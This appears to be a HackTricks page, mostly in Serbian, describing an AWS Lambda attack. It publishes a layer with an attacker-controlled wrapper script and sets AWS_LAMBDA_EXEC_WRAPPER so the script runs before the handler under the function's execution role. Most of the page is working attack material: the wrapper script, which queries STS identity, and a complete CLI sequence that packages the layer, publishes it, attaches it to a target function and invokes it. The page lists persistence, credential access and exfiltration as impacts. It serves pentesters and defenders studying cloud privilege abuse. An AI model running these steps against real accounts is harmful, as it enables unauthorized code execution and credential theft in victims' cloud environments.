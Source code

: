 # AWS - Lambda Exec Wrapper Layer Hijack (Pre-Handler RCE)

{{#include ../../../../banners/hacktricks-training.md}}

## Summary

Iskoristite promenljivu okruženja `AWS_LAMBDA_EXEC_WRAPPER` da izvršite wrapper skriptu pod kontrolom napadača pre nego što runtime/handler počne. Dostavite wrapper putem Lambda Layer-a na `/opt/bin/htwrap`, postavite `AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap`, i zatim pozovite funkciju. Wrapper se izvršava unutar procesa runtime-a funkcije, nasleđuje function execution role, i na kraju `exec`-uje stvarni runtime tako da originalni handler i dalje normalno radi.

> [!WARNING]
> Ova tehnika omogućava izvršavanje koda na ciljanoj Lambda bez menjanja njenog izvornog koda ili role i bez potrebe za `iam:PassRole`. Potrebna vam je samo mogućnost da ažurirate konfiguraciju funkcije i da objavite/prikačite layer.

## Required Permissions (attacker)

- `lambda:UpdateFunctionConfiguration`
- `lambda:GetFunctionConfiguration`
- `lambda:InvokeFunction` (ili pokretanje pomoću postojećeg eventa)
- `lambda:ListFunctions`, `lambda:ListLayers`
- `lambda:PublishLayerVersion` (u istom nalogu) i po potrebi `lambda:AddLayerVersionPermission` ako koristite cross-account/public layer

## Wrapper Script

Postavite wrapper na `/opt/bin/htwrap` u layer-u. Može izvršavati logiku pre-handler-a i mora se završiti sa `exec "$@"` da bi se povezao na pravi runtime.
```bash
#!/bin/bash
set -euo pipefail
# Pre-handler actions (runs in runtime process context)
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json, os
try:
ident = boto3.client('sts').get_caller_identity()
print('[ht] sts identity:', json.dumps(ident))
except Exception as e:
print('[ht] sts error:', e)
PY
# Chain to the real runtime
exec "$@"
```
## Koraci napada (CLI)

<details>
<summary>Objavite layer, prikačite ga na ciljnu funkciju, postavite wrapper, pozovite</summary>
```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# 1) Package wrapper at /opt/bin/htwrap
mkdir -p layer/bin
cat > layer/bin/htwrap <<'WRAP'
#!/bin/bash
set -euo pipefail
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json
print('[ht] sts identity:', __import__('json').dumps(__import__('boto3').client('sts').get_caller_identity()))
PY
exec "$@"
WRAP
chmod +x layer/bin/htwrap
(zip -qr htwrap-layer.zip layer)

# 2) Publish the layer
LAYER_ARN=$(aws lambda publish-layer-version \
--layer-name ht-exec-wrapper \
--zip-file fileb://htwrap-layer.zip \
--compatible-runtimes python3.11 python3.10 python3.9 nodejs20.x nodejs18.x java21 java17 dotnet8 \
--query LayerVersionArn --output text --region "$REGION")

echo "$LAYER_ARN"

# 3) Attach the layer and set AWS_LAMBDA_EXEC_WRAPPER
aws lambda update-function-configuration \
--function-name "$TARGET_FN" \
--layers "$LAYER_ARN" \
--environment "Variables={AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap}" \
--region "$REGION"

# Wait for update to finish
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --query LastUpdateStatus --output text --region "$REGION")" = "Successful" ]; do sleep 2; done

# 4) Invoke and verify via CloudWatch Logs
aws lambda invoke --function-name "$TARGET_FN" /tmp/out.json --region "$REGION" >/dev/null
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 50 --region "$REGION" --query 'events[].message' --output text
```
</details>

## Uticaj

- Izvršavanje Pre-handler code u Lambda runtime kontekstu koristeći postojeći execution role funkcije.
- Nema potrebe za izmenama function code ili role; radi na uobičajenim managed runtimes (Python, Node.js, Java, .NET).
- Omogućava persistence, credential access (npr. STS), data exfiltration i runtime tampering pre nego što handler bude pokrenut.

{{#include ../../../../banners/hacktricks-training.md}}
